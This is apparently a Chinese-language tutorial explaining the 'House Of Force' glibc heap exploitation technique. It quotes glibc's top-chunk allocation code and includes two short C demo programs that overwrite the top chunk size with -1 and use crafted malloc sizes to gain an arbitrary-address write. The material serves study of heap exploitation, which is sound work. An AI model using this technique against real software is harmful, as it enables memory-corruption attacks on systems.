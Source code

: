 ﻿## House Of Force



#### 利用条件

​    House Of Force 是一种堆利用方法，但是并不是说 House Of Force 必须得基于堆漏洞来进行利用。如果一个堆 (heap based) 漏洞想要通过 House Of Force 方法进行利用，需要以下条件：

- 能够以溢出等方式控制到 top chunk 的 size 域
- **能够自由地控制堆分配尺寸的大小**



​    House Of Force 产生的原因在于 glibc 对 top chunk 的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时，如果所有空闲的块都无法满足需求，那么就会从 top chunk 中分割出相应的大小作为堆块的空间。



glibc对于top chunk的验证

```c
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```

​	然而，如果可以篡改 size 为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制 top chunk size 域的漏洞。

```c
(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
```

​	一般的做法是把 top chunk 的 size 改为 - 1，因为在进行比较时会把 size 转换成无符号数，因此 -1 也就是说 unsigned long 中最大的数，所以无论如何都可以通过验证。

```c
remainder      = chunk_at_offset(victim, nb);
av->top        = remainder;

/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))
```

​	之后这里会把 top 指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意值 (write-anything-anywhere)。



**与此同时，我们需要注意的是，topchunk 的 size 也会更新，其更新的方法如下**

```c
victim = av->top;
size   = chunksize(victim);
remainder_size = size - nb;
set_head(remainder, remainder_size | PREV_INUSE);
```

​	所以，如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE。



#### 演示程序1

申请到比之前更低的地址

```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-0x1020);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

执行malloc(-0x1020)的结果

top_chunk地址 = 原top_chunk地址  + 申请大小 +0x10

top_chunk_addr = 0x602020 - 0x1020 + 0x10 = 0x601010

![在这里插入图片描述](1.png)






#### 演示程序2

申请到比之前更高的地址

```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 
    malloc(0x7ffff77cfad0); 
    malloc(0x10);
}
```

运行malloc(0x7ffff77cfad0)后的结果

top_chunk地址 = 原top_chunk地址  + 申请大小 +0x10

top_chunk_addr = 0x602020 + 0x7ffff77cfad0 + 0x10 =0x7ffff7dd1b00

![在这里插入图片描述](2.png)






